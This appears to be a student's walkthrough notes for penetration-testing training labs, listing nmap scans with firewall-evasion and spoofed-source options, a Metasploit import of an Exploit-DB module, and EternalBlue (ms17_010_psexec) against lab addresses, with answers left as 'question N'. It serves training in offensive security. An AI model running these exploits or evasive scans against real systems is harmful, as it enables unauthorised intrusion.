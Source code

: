 *Result:* Access to target = question 2

---

*Command:* Find ip in the /etc/hosts + scan with nmap
- cat /etc/hosts
- nmap -sC -sV -Pn 172.16.1.12
  
*Result:* Distro = question 3

---

*Command:* Inside the file

*Result:* question 4

---

*Command:* Upload module to metasploit + use exploit
- searchsploit -m 50064
- mkdir -p msf4/modules/exploit/php/webapps
- cp 50064.rb msf4/modules/exploit/php/webapps
- msfconsole -q + use 50064 + set VHOST/RHOST/PASSWORD/USERNAME
  
*Result:* Question 5 

---

*Command:* Network scan reveals a keyword for the exploit
- nmap -sC -sV -Pn 172.16.1.13

*Result:* An important configuration name = Question 6

---

*Command:* Use metasploit module EternalBlue
- use exploit/windows/smb/ms17_010_psexec
- set LHOST,RHOST + run

*Result:* Access to target = question 7

## Network Enumeration with NMAP

### Easy Lab
*Command:* Nmap scan without name resolution and disable ICMP
- sudo nmap -Pn -T2 -F -sS -e tun0 10.129.2.209 -n --packet-trace --disable-arp-ping
  - -Pn = No ICMP
  - -T2 = Time template 2 (polite)
  - -n = no name resolution
  - --packet-trace = debug purpose to see the flow of the packet
  - --disable-arp-ping = no ARP Ping
  - -e = from interface withn the same network

*Result:* OS name revelead witout being blocked

### Medium Lab
*Command:* nmap scan to specific port with UDP scan
- sudo nmap -Pn -sSU -sV -p53 $TARGET --packet-trace --disable-arp-ping -S $ATTACKER
  - -sSU = UDP scan
  - -p53 = DNS port
- Only with Pwnbox available
